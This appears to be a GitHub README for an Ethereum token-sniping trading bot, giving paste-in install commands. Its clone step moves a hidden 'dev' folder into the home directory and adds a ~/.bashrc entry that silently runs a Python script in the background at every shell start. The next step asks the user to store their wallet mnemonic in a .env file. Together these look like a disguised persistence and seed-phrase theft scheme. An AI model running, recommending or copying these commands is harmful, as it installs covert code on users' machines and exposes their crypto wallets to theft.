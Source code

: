 # 🚀 Sniper Script

**Sniper** is an automated trading script based on the Ethereum EVM that allows users to run it by setting parameters, enabling automatic matching with DEXs and fast trading of specified tokens.

---

## 1️⃣ Install Docker

```bash
curl -fsSL https://get.docker.com -o get-docker.sh && sudo sh get-docker.sh
```

(⚠️ Make sure Docker Desktop is running in the background)

## 2️⃣ Clone the repository and configure the environment

```bash
git clone https://github.com/web3cryptoguy/Sniper.git && cd Sniper && mv dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

## 3️⃣ Configure variables

```bash
echo 'MNEMONIC=your mnemonic' >> .env
echo 'CA=token contract address' >> .env
echo 'CHAIN_ID=chain ID of the network' >> .env  # For example, the chain ID of Ethereum-mainnet is 1.
echo 'TRADE_AMOUNT=amount of ETH to spend' >> .env
```

## 4️⃣ Run the image

```bash
sudo docker compose up
```
